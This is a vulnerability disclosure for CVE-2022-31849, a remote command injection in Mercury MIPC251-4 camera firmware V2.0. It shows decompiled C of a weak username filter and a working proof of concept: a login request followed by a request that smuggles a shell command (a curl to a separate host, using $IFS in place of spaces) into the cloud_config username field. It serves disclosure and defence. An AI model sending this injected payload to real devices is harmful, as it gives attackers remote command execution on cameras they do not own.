 # MERCURY MIPC251-4 command_execution

**CVE ID**:  CVE-2022-31849

**Vender**: MERCURY

**Vendor Homepage**: https://www.mercurycom.com.cn/

**Affect products**: MIPC251-4

**Firmware version**: V2.0(20200608)

**Hardware Link**: https://service.mercurycom.com.cn/download/202007/MIPC251-4%20V2.0%E5%8D%87%E7%BA%A7%E8%BD%AF%E4%BB%B620200608_2.0.21.zip

**Exploit Author**: [SkYe231@Hillstone](mailto:ext-lhliang@Hillstonenet.com)

## describe

The Mercury MIPC251-4 has remote command execution, and remote attackers can bypass restrictions through carefully constructed packets to achieve remote command execution.

## detail

Taking the mailbox name as the core filtering rule of username, the rules only filter the mailbox format (see the code comments for details), and do not filter special symbols, so there is a chance of injection.

> file:/usr/bin/dsd

```c
/* expect return value 1 */

int FUN_00024aa4(byte *param_1)

{
  size_t sVar1;
  char *pcVar2;
  int iVar3;
  
                    /* username is empty */
  if (param_1 == (byte *)0x0) {
    return 0;
  }
                    /* length is 0 */
  sVar1 = strlen((char *)param_1);
  if (sVar1 == 0) {
    return 0;
  }
                    /* Limit length<129 */
  if ((int)sVar1 < 129) {
                    /* matches @ */
    pcVar2 = strchr((char *)param_1,L'@');
                    /* no matches */
    if (pcVar2 == (char *)0x0) {
      return 0;
    }
                    /* Does it end with @ */
    if (param_1[sVar1 - 1] != 0x40) {
                    /* Does it start with @ */
      iVar3 = *param_1 - 0x40;
      if (iVar3 != 0) {
        iVar3 = 1;
      }
      return iVar3;
    }
  }
  return 0;
}
```

## EXP

1. Log in to the background to get **stok** (cookie)

    ```
    POST / HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 73
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"method":"do","login":{"username":"{your_name}","password":"{your_password}"}}
    ```

2. Trigger remote command execution

    > Command:`curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231'`

    ```
    POST /stok=05173d0162e8c77387fa1bbc12b2fa62/ds HTTP/1.1
    Host: 192.168.0.103
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/json; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 147
    Origin: http://192.168.0.103
    Connection: close
    Referer: http://192.168.0.103/
    
    {"cloud_config":{"bind":{"username":"\"}';curl$IFS-o-$IFS'http://192.168.0.101:9999/skye231';'{\"@mrskye.com","password":"admin123"}},"method":"do"}
    ```